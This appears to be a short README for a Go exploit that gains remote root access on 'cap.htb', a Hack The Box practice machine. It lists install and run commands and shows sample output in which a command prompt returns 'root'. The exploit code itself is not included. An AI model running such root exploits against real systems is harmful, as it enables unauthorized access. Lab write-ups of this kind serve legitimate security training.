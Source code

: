 # remote root exploit for cap.htb

### setup
```bash
sudo apt install libpcap0.8-dev sshpass
```

### run
```
./exploit
```
or
```
go run exploit.go
```

### output
```
$ ./exploit 
Enter command: 
whoami
root
```
 
